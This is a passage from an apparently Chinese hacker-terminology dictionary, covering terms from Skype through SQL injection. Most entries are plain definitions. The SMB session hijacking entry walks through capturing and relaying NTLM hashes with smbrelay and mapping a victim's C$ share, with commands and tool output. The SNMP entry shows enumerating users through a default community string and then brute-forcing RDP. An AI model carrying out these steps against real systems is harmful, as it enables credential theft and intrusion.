Skype 是著名的网络即时语音沟通工具，如图 S-25 所示，具备 IM 所需的其他功能，比如视频聊天、多人语音会议、多人聊天、传送文件、文字聊天等功能。它可以免费高清晰与其他用户语音对话，也可以拨打国内国际电话，无论固定电话、手机、小灵通均可直接拨打，并且可以实现呼叫转移、短信发送等功能。


## Slammer 病毒与恶意软件

Slammer 全名为 SQL Slammer，该病毒利用 **SQL Server** 的 1434 端口进行缓冲区溢出攻击。2003 年 1 月 25 日首次出现。它是一个非常典型的蠕虫病毒，目标并非终端用户而是服务器。它是一个单包、长度约 376 字节的蠕虫，随机产生 IP 地址并向这些地址发送自身；一旦目标主机运行未打补丁的 SQL Server Desktop Engine，即会迅速开始向更多随机 IP 主机传播。

由于 1434 端口采用 **UDP** 协议，攻击包也采用 UDP。UDP 的无连接性使得该病毒发包速度与数量极大，因此传播极快。数据显示，SQL Slammer 在十分钟内感染了约 7.5 万台计算机。庞大流量导致全球路由器过载并大量宕机，使当时全球网络几近瘫痪，韩国国内甚至出现 ATM 无法使用的情况。

## Smart NTFS Recovery 应用程序

Smart NTFS Recovery 是一款 Windows 平台的数据恢复工具，支持 NTFS 文件系统。可恢复 NTFS 硬盘及优盘、USB 移动硬盘、数码相机、记忆棒、PC 卡、MMC 卡、安全数字卡等存储介质上的数据。可恢复已删除文件，包括 MS Office 文件、照片、mp3 及压缩文件等，即使部分分区表丢失也可恢复。


## Smarty 模板 黑客技术基础

Smarty 是由 PHP 官方提供的 PHP 模板引擎，具有编译型、缓存技术、插件技术等特征，可为大型 Web 应用提供支持。

## SMB 黑客技术基础

SMB（Server Message Block）通信协议由微软（Microsoft）和英特尔（Intel）于 1987 年制定，主要作为 Microsoft 网络的通信协议。客户端可通过该协议访问服务器共享文件系统、打印机及其他资源。SMB 属于会话层、表示层及部分应用层相关协议（应用层的信息请见 OSI 词条）。它使用的是 NetBIOS 的 API 来实现其功能。更重要的是，它是一个开放性的协议，允许协议扩展——使得它变得更大而且复杂；大约有 65 个最上层的作业，而每个作业都超过 120 个函数，甚至 Windows NT 也没有全部支持到。它是建立在广泛应用于个人电脑和工作站等操作系统的标准服务器消息块（SMB）协议。我们常说的 IPC 共享管道也是基于这个协议的。

SMB 协议主要用于在计算机间共享文件、打印机、串口等。SMB 协议可以用在 TCP/IP 协议之上，也可以用在其他网络协议如 IPX 和 NetBEUI 之上。通过 SMB 协议，客户端应用程序可以在各种网络环境下读、写服务器上的文件，以及对服务器程序提出服务请求。

后来微软又把 SMB 改名为 CIFS（Common Internet File System），并且加入了许多新的特色。通过 SMB 通信协议，使网络上各台主机之间能够共享文件、打印机等资源。与现有 Internet 应用程序，如文件传输协议（FTP）相比，CIFS 灵活性更大。

## SMB 会话劫持 渗透技术

SMB 会话劫持是一个危害极大的攻击方法，也是一种典型的中间人攻击（man in the middle）。通过这个技术可以劫持两个 SMB 会话，这样可以轻易地在不知道对方系统密码的情况下访问其共享资源。下面详细介绍一下这个攻击技术的原理及其具体攻击过程。

### 首先要介绍一下 SMB 会话认证的经过：

- 1. 首先，客户端向服务器请求一个 NETBIOS 会话。客户端发送它的已编码的 NETBIOS 名字到 SMB 服务器（它们在 139 端口监听连接请求），服务器接收到 NETBIOS 名字后回复一个 NETBIOS 会话数据报给有效的会话连接。客户端在建立了连接之后才能进入访问。
- 2. 客户端发送一个 SMB negProt 请求数据报（客户端列出了它所支持的所有 SMB 协议版本），接着与服务端之间商量连接时候的一些参数设置。
- 3. 通过磋商之后，客户端进程向服务器发起一个用户或共享的认证。这个过程是通过发送 SesssetupX（SesssetupX 是会话建立和 X，“Session setup and X”的简称）请求数据报实现的。客户端发送一对登录名/密码或一个简单密码到服务器，然后服务器通过发送一个 SesssetupX 应答数据报来允许或拒绝本次连接。这个步骤就是一个重点了，我们可以很轻易地通过软件截取到这一步中的敏感信息。
- 4. 在客户端完成了磋商和认证之后，它会发送一个 TconX 数据报并列出它想访问的特定网络资源的名称，之后服务器会发送一个 TconX 应答数据报以表示此次连接是否接受或拒绝。

接着给大家介绍一下 SMB 的加密机制，其用到的是 Challenge/Response 响应机制，具体过程如下：

- 1. A 机器试图访问 B 机器某共享资源的时候，A 机器会发送当前登录的用户名和密码，由 B 机器进行验证；
- 2. 此时 B 机会随机产生 8 字节的挑战（Challenge），送往 A 机；
- 3. A 在本地将自己的密码加密为散列（HASH），然后再用 HASH 对获得的 Challenge 加密，这就得到了一个 RESPONSE，再发送给 B；
- 4. 然后，B 获得了 RESPONSE 后再将用户名、Challenge、RESPONSE 这三样东西进行校验；
- 5. 对比后最后决定是否通过认证。

清楚上面几个过程与机制后就可以讲解攻击的方法了，一般可以利用 SMB 做两件事情：

第一种情况是得到密钥和加密过的口令，然后暴力破解，它会花费你很多的时间……一些程序，如 LophtCrack（附 SMBGrinder）、dsniff or readsmb2 会嗅探到 SMB 加密过的密码。

第二种方法是劫持连接，并使客户端确信密码不用加密后传送。

首先来看第一种，以下是具体的思路和实现过程。

### 一、Session 的建立

设法让目标机器（以下简称 A）访问自己主机（以下简称 B）的特定资源，产生一个 NETBIOS 会话。A 发送 Session request，其中包括经过编码的 NETBIOS 名字。B 在 139 端口监听连接，收到 A 的 request 后，B 发送 Session confirm，其中没有任何内容，这样就建立了一个有效的 Session。其中 Session request 数据包的 NETB Type 为 0x81，Session confirm 数据包的 NETB Type 为 0x82，可以在程序中通过判断这两个标志来确定是否产生一个有效的 Session，然后就可以想办法截获 SMB 包了。

### 二、Challenge 的获得

当有效的 Session 建立后，就开始进行连接的确认工作了，从这一步中可以得到 B 发送给 A 的由 B 随机产生的 Challenge。

过程如下：A 向 B 发送一个身份认证的请求，B 随机产生一个 8 字节的 Challenge 发送给 A，这个 Challenge 就包含在 B 发回给 A 的 Server Response 数据包中。用 Sniffer Pro 截获这个包后，去掉物理帧头、IP 头和 TCP 头，再去掉 4 个字节的 NETB 头，剩下的就是 SMB 包的内容。再去掉 33 个字节长的 SMB Response header，然后向后做 36 个字节的偏移，下面的就是长度为 8 个字节的 Challenge。这样就得到了我们需要的服务器随机产生的 Challenge。

### 三、LM&NT HASH 的获得

A 得到 B 发回的用于加密口令的 Challenge 后，向 B 发送建立空连接的请求，B 返回 Server Response 包，此时 IPC 空连接成功建立。A 然后发送 LM&NT HASH 给 B，请求访问特定的资源，等待 B 的允许。我们需要做的就是截获 A 发送的这个 SMB 包。

下面来看怎么拆解出 HASH：还是先去掉物理帧头、IP 头和 TCP 头，再去掉 4 个字节的 NETB 头，剩下的就是 SMB 包的内容。再去掉 33 个字节长的 SMB Response header，然后向后做 28 个字节的偏移，下面 24 个字节的内容就是 LM HASH，紧接着的 24 个字节就是 NT HASH。现在我们就获得了 A 主机的 LM HASH 和 NT HASH。

### 四、HASH 的破解

前面已经获得了 Challenge、LM HASH 和 NT HASH，现在我们做成 lc 文件格式，再导入 lc4 来进行暴力破解。lc 的文件格式如下：

```text
192.168.0.244  ADMINIST-7Z6A4E\administrator:"":"":
89E5E3F54A998398DC36E89DDD37334C801201CA39C9A5D3:
8457623684F27A5EFA5FE7B647E87C36D7816F80594123C:E3A96FF4507B9EDF
```

后面的三列数字分别为 LM HASH、NT HASH、Challenge。

要完成上述步骤看似复杂，但借助一个名叫 smbrelay 的工具可以很简单地实现上面的过程，它能从外来的 SMB 数据中提取用户名和密码，不仅能冒充一个 SMB 主机，同时还能发起中间人攻击，即 SMB 会话劫持。

使用方法：smbrelay [参数]

参数：

- `/D num`：设置调试的等级，默认是 0，可用的参数值还有 1、2。我估计这里指的是 Windows 使用的安全等级，你可以在其他文章中得到具体的解释。
- `/E`：列举网卡接口和它们的参数。
- `/IL num`：设定在添加本地 IP 地址（作诱饵）时，使用的网卡接口号。
- `/IR num`：设定在添加代理 IP 地址（就像使用了 smbproxy 的那种 IP 地址）时，使用的网卡接口号。默认是 1，你能够使用 `/E` 参数来列举网卡的接口号。
- `/L[+] IP`：设定要接收 NetBIOS 信息的本地 IP 地址。使用 `+` 是为了设置第一次在 NIC（网络接口卡）中添加的 IP 地址，默认是使用本机的当前 IP 地址。
- `/R[-] IP`：设定代理 IP 地址的起始端，默认是使用 192.1.1.1。使用它是为了设置第一次在 NIC（网络接口卡）中添加的 IP 地址。
- `/S name`：设定原始机器（诱饵 IP）的名字，默认是 CDC4EVER。

**使用时需注意，因为 smbrelay 服务器要占用 139 端口，而 Windows 又有一套自我保护措施，它不会让 smbrelay 在这个端口上绑定。**

要解决这个问题的方法有两个：

- 1. 停用 NetBIOS 服务。
- 2. 设置一个虚拟 IP，也就是利用参数：`/L+ IP` 就可以了。

还要注意的是，SMB 客户程序会在连接 TCP139 失败时自动连接 445 端口，为避免这些新出现的 SMB 程序躲开 139 端口的监听，我们需要把 445 端口也禁用。

接下来是利用 smbrelay 实现上面思路的过程：

- 1. 首先我们利用 smbrelay 设立一个非法服务器，并且引诱目标主机连接。
- 2. 当目标主机连接上 smbrelay 所设立的非法服务器后，就可以通过上面所说的步骤截取到敏感信息。
- 3. 把所得信息交给 LC4 破译。

下面来看其具体实施过程，首先检查网卡参数：

```bash
D:\smbre>smbrelay /E
```

```text
smbrelay v0.981 - TCP (NetBT) level SMB man-in-the-middle relay attack
Copyright 2001, Sir Dystic, Cult of the Dead Cow
Send complaints, ideas and donations to sirdystic@cultdeadcow.com
[10000003] ETHERNET CSMACD — NDIS 5.0 driver
[1] SOFTWARE LOOPBACK — MS TCP Loopback interface
```

由上面可以知道网卡接口编号为 1，这个过程是很重要的，它直接关系到以后的步骤是否能正确接收到 SMB 包。下面就是启动 smbrelay 服务器：

```bash
D:\smbre>smbrelay.exe /IL 1 /IR 1
```

```text
smbrelay v0.981 - TCP (NetBT) level SMB man-in-the-middle relay attack
Copyright 2001, Sir Dystic, Cult of the Dead Cow
Send complaints, ideas and donations to sirdystic@cultdeadcow.com
Using relay adapter index 1: MS TCP Loopback interface
Bound to port 139 on address 192.168.0.155
```

接着，只要有主机试图与这台主机建立 SMB 会话，则所有的信息都会被记录下来。接下来就是诱导目标机与这台主机建立 SMB 会话了。

当我们在“运行”中输入 `\\xxx.xxx.xxx.xxx` 就等于想访问其共享资源，这时 SMB 会话就会产生，只要我们诱导目标机执行这样一个命令就可以了。比如我们可以在网页中嵌入一条语句：``。这样，浏览器为了得到这个图片就不得不让系统与 XXX.XXX.XXX.XXX 建立 SMB 会话了。

当有人访问了主机后的显示结果如下：

```bash
D:\smbre>smbrelay.exe /IL 1 /IR 1
```

```text
smbrelay v0.981 - TCP (NetBT) level SMB man-in-the-middle relay attack
Copyright 2001, Sir Dystic, Cult of the Dead Cow
Send complaints, ideas and donations to sirdystic@cultdeadcow.com
Bound to port 139 on address 192.168.0.155
Connection from 192.168.0.119
Request type: Session Request 72 bytes

Source name: HACKER2                <00>
Target name: *SMBServer             <20>
Setting target name to source name and source name to 'CDC4EVER'...Response:
Positive Session Response   4 bytes

Request type: Session Message   174 bytes
SMB_COM_NEGOTIATE
Response:        Session Message   99 bytes
Challenge (8 bytes):   268B11C361473D20 // 随机“挑战”的密文

Request type: Session Message   278 bytes
SMB_COM_Session_SETUP_ANDX
Password lengths: 24, 24
Case insensitive password: 59A8A04CC37D226F0AC44065C84FDF9FEB18B611C3CBE936
//LM密文
Case sensitive password:   8BA548AF1F9A517BBFBEF4E53D1D8B5D94E81C5523E7B251
//NTLM密文
Username:      "administrator"
Domain:        "HACKER2"
OS:            "Windows NT 1381"
Lanman type:   ""
Response:      Session Message   148 bytes
OS:            "Windows NT 4.0"
Lanman type:   "NT LAN Manager 4.0"
Domain:        "HACKER"

Password hash written to disk
Connected?
Bound to port 139 on address 192.1.1.1 relaying for host HACKER2 192.168.0.119
```

接着只要把上面三个敏感信息：LM HASH、NT HASH、Challenge 提取出来，交给 LC 破解就可以了。

其实当我们截取到这些敏感信息后，甚至可以不破解而直接通过中继地址与连接来的主机建立连接，比如输入：`D:\>net use z: \\192.1.1.1\c$`。192.168.1.1 是 smbrelay 默认的中继地址，我们连接的这个地址实际上是连到了 192.168.0.119 上，顺利地映射了别人的 C 盘。

上面的方法只能算是 SMB 会话欺骗，不能算是劫持，而第二种方法就是真正 SMB 会话劫持了。下面来详细讲解一下第二种方法，也就是 SMB 会话劫持的具体实施过程，这里同样要用到强大的 smbrelay。

### 先来讲讲中间人攻击的思路：

- 1. 首先，我们确定三台主机：C（客户端）、S（服务端）、H（攻击者）。H 首先使用 `ARP` 欺骗使得 C 与 S 之间的数据需要流经 H。
- 2. 接着，攻击者等待 C 向 S 发送第一个数据报，由于 ARP 欺骗，数据被 H ...收到。

3、C继续向H发送数据报，没过多久协商请求（negProt request）就发了过来。H马上伪装成C向S传递这个请求。S接着应答了这个请求，H继续充当路由的角色，来回传递双方的包。

4、关键的时刻，H修改了包中的某些内容，如不加密密码的协商内容，这样可以使攻击者更轻易地得到密码。

5、当连接正式建立的时候，H直接断开与C的连接，并以C的身份访问S。因为SMB会话已经建立，H不需要任何认证就可以直接与S连接，并通过工具获得Shell。

- 192.168.0.15 是攻击者的机器
- 192.168.0.2 是虚拟出来的SMB服务器
- 192.168.0.119 是被劫持的主机

```bash
D:\smbre>smbrelay.exe /L 1 /R 12 /L+ 192.168.0.2 /R- 192.168.0.2
```

这样我们就设立了一个192.168.0.2的虚假SMB服务器，并把中继地址也设置成192.168.0.2。接着在被劫持的主机上输入：net use \\192.168.0.2……，然后在攻击主机上会有以下显示：


```
//LM密文
Case sensitive password: 8BA548AF1F9A517BBFBEF4E53D1D8B5D94E81C5523E7B251

//NTLM密文
Username: "administrator"
Domain: "HACKER2"
OS: "Windows NT 1381"
Lanman type: ""
Response: Session Message 148 bytes
OS: "Windows NT 4.0"
Lanman type: "NT LAN Manager 4.0"
Domain: "HACKER"
```

```text
Password hash written to disk
Connected?
Bound to port 139 on address 192.1.1.1 relaying for host HACKER2 192.168.0.119
```

这里，192.168.0.15主机成功地充当了中间人的角色，你所发给192.168.0.2的数据全部流经过这里。同时对方并不知道自己的会话已经被监视了，我们不仅可以嗅探到其中的数据，还可以同时修改数据。这里只需要连接中继IP地址192.168.0.2，分别输入命令：

```bash
E:\>net use \\192.168.0.2
E:\>net use h: \\192.168.0.2\c$
```

这样就把主机192.168.0.199映射成H盘了，这时smbrelay显示：

```text
Connection rejected, 192.168.0.199 already connected
*** Relay connection for target HACKER2 received from 192.168.0.155:1605
*** Sent positive Session response for relay target HACKER2
*** Sent dialect selection response (5) for target HACKER2
*** Sent SMB Session setup response for relay to HACKER2
```

## SMTP 黑客技术基础

SMTP即简单邮件传输协议（Simple Mail Transfer Protocol），是一种提供可靠且有效电子邮件传输的协议。当我们发送邮件时就要用它来将邮件发送至目的地，反过来，收邮件就要用到POP3协议。一般它会占用邮件服务器的25端口。

## Smurf攻击 攻击方法与行为

Smurf攻击是一种通过ICMP数据包进行攻击的行为，它的目的在于使网络造成拥塞。Smurf攻击通过使用将回复地址设置成受害网络广播地址的ICMP应答请求数据包来淹没受害主机，最终导致该网络的所有主机都对此ICMP应答。

## Sniff 黑客技术基础

Sniff即嗅探，是一个获取网络上传输数据的古老方法。它是一把双刃剑，既可以帮助网络管理员分析网络情况，也可以让入侵者轻易地得到他想得到的数据。

在由一个HUB组成的以太网中，所有的数据包都是广播的，也就是说通常在同一个网段的所有网络接口都可以访问在物理媒体上传输的所有数据。而每一个网络接口都有一个唯一的硬件地址，这个硬件地址也就是网卡的MAC地址，大多数系统使用48比特的地址，这个地址用来表示网络中的每一个设备。一般来说每一块网卡上的MAC地址都是不同的，每个网卡厂家得到一段地址，然后用这段地址分配给其生产的每个网卡一个地址。在硬件地址和IP地址间使用ARP和RARP协议进行相互转换。在正常的情况下，一个网络接口应该只响应这样的两种数据帧：

1. 与自己硬件地址相匹配的数据帧。
2. 发向所有机器的广播数据帧。

在一个实际的系统中，数据的收发是由网卡来完成的。网卡接收到传输来的数据，网卡内的单片程序按收数据帧的目的MAC地址，根据计算机上的网卡驱动程序设置的接收模式判断该不该接收，认为该接收就接收后产生中断信号通知CPU，认为不该接收就丢掉不管。所以不该接收的数据网卡就截断了，计算机根本就不知道。CPU得到中断信号产生中断，操作系统就根据网卡驱动程序设置的网卡中断程序地址调用驱动程序接收数据，驱动程序接收数据后放入信号堆栈让操作系统处理。而对于网卡来说一般有四种接收模式：

- **广播方式**：该模式下的网卡能够接收网络中的广播信息。
- **组播方式**：设置在该模式下的网卡能够接收组播数据。
- **直接方式**：在这种模式下，只有目的网卡才能接收该数据。
- **混杂模式**：在这种模式下的网卡能够接收一切通过它的数据，而不管该数据是否是传给它的。

从上面可以看到，当网卡可以置于混杂模式下时，网卡能够接收到一切通过它的数据，而不管实际上数据的目的地址是不是它。这实际上就是我们Sniff工作的基本原理：让网卡接收一切它所能接收的数据。不管其MAC地址是不是这张网卡的，这样就可以嗅探出局域网内的全部数据（当然，前提是此局域网是由HUB组成的）。但如果将HUB换成交换机或路由器，这样的嗅探就不能成功了，这时就要用到ARP欺骗才能嗅探到数据了。

## Sniffer 黑客技术基础

Sniffer，中文可以翻译为嗅探器，即用来嗅探的工具。使用这种工具，可以监视网络的状态、数据流动情况以及网络上传输的信息。当信息以明文的形式在网络上传输时，便可以使用网络监听的方式来进行攻击。将网络接口设置在监听模式，便可以将网上传输信息进行截获。

在早期，当一个网络出现故障时，需要由网络管理员查找故障原因并及时修复。但局域网一般都由几十台到几百台计算机，以及多台服务器、交换机、路由器等设备组成，一旦出现故障，管理员需要全面检查这些设备是否正常运行、各个端口的连接是否正常，检查故障是否是黑客或木马所为，工作量十分巨大，同时排除故障也非常麻烦。这个时候就要借助嗅探器了，当然，入侵者也可以利用嗅探器获取自己想要的数据。常见的嗅探器有Sniffer Pro、IRIS等。

## Sniffer Pro 应用程序

Sniffer Pro是美国Network Associates公司生产的一款网络分析软件，如图S-27所示。它允许管理员逐个数据包查看通过网络的实际数据，从而了解网络的实际情况。该软件能理解很多协议，这使它可以显示网络上主机间进行的会话，支持各种平台，性能优越。一般常用于网络故障与性能管理，在局域网领域应用非常广泛。它具有以下特点：

1. 可以解码至少450种协议。除了IP、IPX和其他一些“标准”协议外，还可以解码分析很多由厂商自己开发或者使用的专门协议，比如思科VLAN中继协议（ISL）。
2. 支持主要的局域网（LAN）、城域网（WAN）等网络技术，包括高速与超高速以太网、令牌环、802.11b无线网、SONET传递的数据包、T-1、帧延迟和ATM。
3. 提供在位和字节水平上过滤数据包的能力。
4. 提供对网络问题的高级分析和诊断，并推荐应该采取的正确措施。
5. Switch Expert可以提供从各种网络交换机查询统计结果的功能。
6. 网络流量生成器能够以千兆的速度运行。
7. 可以离线捕获数据，如捕获帧。因为帧通常都是用8位的分界数组来校准，所以它只能以字节为单位捕获数据。但过滤器在位或者字节水平都可以定义。

需要注意的是，在捕获数据时，如果网络中传输的数据量特别大，安装该软件的电脑系统整体配置太低端（如内存太小），会导致性能下降，甚至造成系统死机或者系统崩溃。

因此，网络中捕获的流量越多，使用这款软件的电脑系统就应该越强劲。建议大家使用嗅探工具时应该有一个速度尽可能快的处理器，以及至少512MB的物理内存。

## SNMP 黑客技术基础

SNMP是专门设计用于在IP网络管理网络节点（服务器、工作站、路由器、交换机及HUB等）的一种标准协议，它是一种应用层协议。通过SNMP接收随机消息（及事件报告），使网络管理员能够管理网络效能，发现并解决网络问题以及规划网络增长。

SNMP是TCP/IP网络中标准的管理协议，它允许网络中的各种设备和软件，包括交换机、路由器、防火墙、集线器，甚至操作系统、服务器产品和部件等，能与管理软件通信，汇报其当前的行为和状态。

而且，SNMP还能被用于控制这些设备和产品，重定向通信流，改变通信数据包的优先级，甚至断开通信连接。总之，入侵者如果具备相应能力，就能完全接管SNMP出现漏洞的网络。


目前，**SNMP有3种：SNMPV1、SNMPV2、SNMPV3**。第1版和第2版没有太大差距，但SNMPV2是增强版本，包含了其他协议操作。与前两种相比，SNMPV3则包含更多安全和远程配置。为了解决不同SNMP版本间的不兼容问题，RFC3584定义了三者共存策略。**SNMP还包括一组由RMON、RMON2、MTB、MTB2、OCDS及OCDS定义的扩展协议。**

Windows NT/2000及2003都支持这个协议并提供SNMP服务，而当开启SNMP服务又出现默认密码时，它就成了一个服务器薄弱点，攻击者很有可能会利用SNMP服务拿下服务器。

下面给出一个实例，首先利用X-scan扫描目标主机，得到以下信息：

```text
202.*.*.* Telnet (23/tcp)    发现安全提示
202.*.*.* unknown (3389/tcp)  发现安全提示
202.*.*.* snmp (161/udp)      发现安全漏洞
漏洞 snmp (161/udp)  Snmp 口令: "public"
```

可以看到开放了Telnet的23端口与3389端口，同时SNMP出现了默认口令，这样就可以利用工具`snmputil.exe`显示目标设备情况以及管理设备。**snmputil.exe有三种命令参数：Snmputil get、Snmputil getnext和snmputil walk**。对于入侵最有用的是`snmputil walk`，这里仅说明这种命令的使用，其他命令可查看help。

```text
snmputil walk 对方ip public .1.3.6.1.2.1.25.4.2.1.2      列出系统进程
snmputil walk 对方ip public .1.3.6.1.4.1.77.1.2.25.1.1    列出系统用户列表
snmputil get  对方ip public .1.3.6.1.4.1.77.1.4.1.0       列出域名
snmputil walk 对方ip public .1.3.6.1.2.1.25.6.3.1.2       列出安装的软件
snmputil walk 对方ip public .1.3.6.1.2.1.1                列出系统信息
```

下面输入命令：`snmputil walk 202.*.*.* public .1.3.6.1.4.1.77.1.2.25.1.1`列系统用户列表，如图S-28所示。


得到了`guest`、`jin`、`j*`、`t*`四个用户，接着做一个小字典，这样就可以通过这些信息再利用Tscrack破解**3389端口**。回到命令行下，输入命令：`tscrack.exe -w pass.dic -l jin 202.*.*.*`，得到一个用户，但没有登录权限，如图S-29、图S-30所示。


但由于对方开放了Telnet，所以可以利用Telnet顺利登录上去，如图S-31所示。


## Snort 应用程序，安全技术

Snort是一款小型的入侵检测系统，同时也是一个免费的、跨平台的软件包，也可以用作嗅探小型TCP/IP网的嗅探器、日志记录。它可以运行在Linux/UNIX和Win32系统上，用户只需要几分钟就可以安装好并开始使用它。

## 黑客术语图文辞典 → Socks 代理

Snort的一些功能：

1. 实时通讯分析和信息包记录
2. 包装有效载荷检查
3. 协议分析和内容查询匹配
4. 探测缓冲溢出、秘密端口扫描、CGI攻击、SMB探测、操作系统侵入尝试
5. 对系统日志、指定文件、Unix Socket或通过Samba的WinPopup进行实时报警

**Snort有三种主要模式：信息包嗅探器、信息包记录器和成熟的入侵探测系统。**

Snort支持各种形式的插件、扩充和定制，包括数据库或是XML记录、小帧探测和统计的异常探测等。信息包有效载荷探测是Snort最有用的一个特点，这就意味着很多额外种类的敌对行为可以被探测到。其最大的优点是它的入侵检测规则是完全开放的，也就是说你可以针对自己的网络系统，设计自己的入侵检测规则。

## Sockcap 程序语言与开发

SocksCap是老牌的Socks代理程序，如图S-32所示，是美国NECUSA Inc.公司出品的代理服务器第三方支持软件。其拥有功能强大的Socks调度，通过它几乎可以让所有基于TCP/IP协议的软件（像ICQ、MUD、FTP、IE等）都能通过Socks代理服务器连接到Internet。


## Socks 代理 黑客技术基础

Socks代理是因特网上最常使用的代理服务之一，事实上Socks可以看成一个电路级的底层网关，它是David Koblas在1990年开发的，此后就一直作为Internet RFC标准的开放标准。

Socks不要求应用程序遵循特定的操作系统平台，Socks代理与应用层代理、HTTP层代理不同，它只是简单地传递数据包，而不必关心是何种应用协议（比如FTP、HTTP和NNTP请求）。所以，Socks代理比其他应用层代理要快得多，它通常绑定在代理服务器的1080端口上。

## Sock4/5 黑客技术基础

Sock4代理协议可以说是对HTTP代理协议的加强，它不仅对HTTP协议进行代理，还可对所有向外的连接进行代理，是没有协议限制的。也就是说，只要你向外连接，它就给你代理，并不管你用的是什么协议，极大地弥补了HTTP代理协议的不足，使得很多在HTTP代理情况下无法使用的网络软件都可以使用了（例如：QQ、MSN等软件）。Sock5代理协议又对前一版进行了修改，增加了支持UDP代理及身份验证的功能。

## Socket 程序语言与开发

Socket即套接字，它用于描述IP地址和端口，其性质类似于文件的句柄，Socket原意是“插座”。

应用层通过传输层进行数据通信时，TCP和UDP会遇到同时为多个应用程序进程提供并发服务的问题。多个TCP连接或多个应用程序进程可能需要通过同一个TCP协议端口传输数据。为了区别不同的应用程序进程和连接，许多操作系统为应用程序与TCP/IP协议交互提供了Socket，用以区分不同应用程序进程间的网络通信和连接。这其中主要有3个参数：通信的目的IP地址、使用的传输层协议（TCP或UDP）和使用的端口号。

通过将这3个参数结合起来，与一个“插座”Socket绑定，应用层就可以和传输层通过套接字接口，区分来自不同应用程序进程或网络连接的通信，实现数据传输的并发服务。应用程序通常通过套接字向网络发出请求或者应答网络请求。

套接字最初是为支持TCP/IP协议而开发的，现在它已被认为是开发非RPC Windows网络应用程序的最好途径。

Socket相当于进行网络通信两端的插座，只要对方的Socket和自己的Socket有通信连接，双方就可以发送和接收数据了。图S-33为套接字工作的层面图。


## SoftDefender 应用程序

软件保护神的前身，性能优异的程序保护软件，具有一些不错的特性，保护你的程序不被破解，具有如下特性：保护资源、加密数据、最大压缩率60%、内存动态保护、反内存转储、程序完整性检查、反API钩子等等。

## Solaris 操作系统及其相关

Solaris是SUN Microsystems研发的计算机操作系统，它被认为是UNIX操作系统的衍生版本之一，目前Solaris仍旧属于商业软件。2005年6月14日，SUN公司将正在开发中的Solaris 11的源代码以CDDL许可开放，这一开放版本就是Open Solaris。

SUN的操作系统最初叫做SUNOS，由于SUN Microsystem的创始人之一——Bill Joy 来自 U.C. Berkeley，因此 SUNOS 主要是基于 BSD Unix 版本。SUNOS 5.0 开始，SUN 的操作系统开发开始转向 System V Release 4，并且有了新的名字，叫做 Solaris 2.0。Solaris 2.6 以后，SUN 删除了版本号中的“2”，因此，SUNOS 5.10 就叫做 Solaris 10。Solaris 的早期版本后来又被重新命名为 Solaris 1.x。所以 “SUNOS” 这个词被用作专指 Solaris 操作系统的内核，因此 Solaris 被认为是由 SUNOS、图形化的桌面计算环境及其网络增强部分组成。

## SOPHOS（特定名称）

SOPHOS 是专门保护商业机构免遭病毒和垃圾邮件侵害的安全公司。SOPHOS 的全球总部位于英国牛津近郊，其推出的 SOPHOS Anti-Virus 是一个专为大型企业网络而设计的完整病毒防护系统产品，其全面支持目前所有普遍的桌面型与网络操作系统。它通过全面检测每一个可能的病毒入侵点，包括磁盘、应用程序、文件档案、网络磁带机和光盘等来达到保护桌面系统安全，同时也会侦测电子邮件、网络下载的文档及群组程序和已压缩的文档。

## SPAM（特定名称）

SPAM 通常用来指垃圾邮件，不过在搜索引擎营销中所说的 SPAM 是专门针对那些欺骗搜索引擎的信息。搜索引擎垃圾技术是利用不道德的技巧去提高自己在搜索引擎上的排名。不诚实的网站管理员就是利用这样的手段去欺骗搜索引擎，从而获得较高的排名。这样的做法会让你的网站在短期内排名得到提高，但是后果却是十分严重的，有可能导致搜索引擎把你的网站从它的数据库里永久删除。

## SQL（数据库）

SQL 全称是“结构化查询语言（Structured Query Language）”，它是进行数据库操作的标准语言，是 IBM 的圣约瑟研究实验室为其关系数据库管理系统 System R 开发的一种查询语言，它的前身是 SQUARE 语言。

SQL 语言结构简洁，功能强大，简单易学，所以自从 IBM 公司 1981 年推出以来便得到了广泛的应用。如今无论是像 Oracle、Sybase、Informix、SQL Server 这些大型的数据库管理系统，还是像 Visual FoxPro、PowerBuilder 这些微机上常用的数据库开发系统，都支持 SQL 语言作为查询语言。

- 数据查询语言（SELECT 语句）
- 数据操纵语言（INSERT、UPDATE、DELETE 语句）
- 数据定义语言（如 CREATE、DROP 等语句）
- 数据控制语言（如 COMMIT、ROLLBACK 等语句）

SQL 语言的主要功能就是同各种数据库建立联系，进行沟通。按照 ANSI（美国国家标准协会）的规定，SQL 被作为关系型数据库管理系统的标准语言。SQL 语句可以用来执行各种各样的操作，例如更新数据库中的数据、从数据库中提取数据等。

目前，绝大多数流行的关系型数据库管理系统，如 Oracle、Sybase、Microsoft SQL Server、Access 等都采用了 SQL 语言标准。虽然很多数据库都对 SQL 语句进行了再开发和扩展，但是包括 Select、Insert、Update、Delete、Create 以及 Drop 在内的标准 SQL 命令仍然可以被用来完成几乎所有的数据库操作。

## SQL Server 数据库

SQL Server 是微软开发的著名大型数据库，在许多企业与网站上被广泛使用。因为装有此数据库后就会开放 1433 端口，所以一般开放 1433 端口的主机都是装有此数据库的。由于 SQL Server 的功能十分强大，所以一旦出现安全问题（例如 SA 弱口令或 SQL 注入），后果将十分严重。

SQL Server 最初是由 Microsoft、Sybase 和 Ashton-Tate 共同开发，于 1988 年推出了第一个 OS/2 版本。在 Windows NT 推出后，Microsoft 与 Sybase 在 SQL Server 的开发上就分道扬镳了。

Microsoft 将 SQL Server 移植到 Windows NT 系统上，专注于开发推广 SQL Server 的 Windows NT 版本；Sybase 则较专注于 SQL Server 在 UNIX 操作系统上的应用。

总的来说，它是一个全面的、集成的、端到端的数据解决方案，为企业中的用户提供了一个安全、可靠和高效的平台，用于企业数据管理和商业智能应用，所以适合一些大型网站使用。

使用最广泛的版本是 SQL Server 2000，而目前的最新版本为 SQL Server 2005。如图 S-34 所示，为 SQL Server 2000 的企业管理器。


图 S-34

## SQL INJECTION 攻击方法与行为

即 SQL 注入。

## SQL 注入：攻击方法与行为

SQL 注入很多时候又称 SQL 注射，在不同情况下，它可能被称为脚本注入、ASP 注入或者 PHP 注入，总之都是由于 SQL 注入的形式与方法多种多样而引起的。而作为现在最流行的攻击方式（注意，没有之一！），这里需要详细讲述一下这个重要的概念。

**SQL 注入，其核心思想在于将非法的 SQL 语句注入到正常的 SQL 语句之中，从而让数据库执行攻击者所传递的非法 SQL 语句。**而 SQL 注入之所以可以成功，关键在于大多数脚本进行数据库操作的过程。

一般来说，一个动态的页面（即脚本。其实不光是脚本，一些应用程序也可能出现 SQL 注入，但这里只以脚本为例）在进行数据库操作时都有以下这几个过程：

- 得到用户传递过来的参数。
- 连接数据库。
- 获得 SQL 语句。
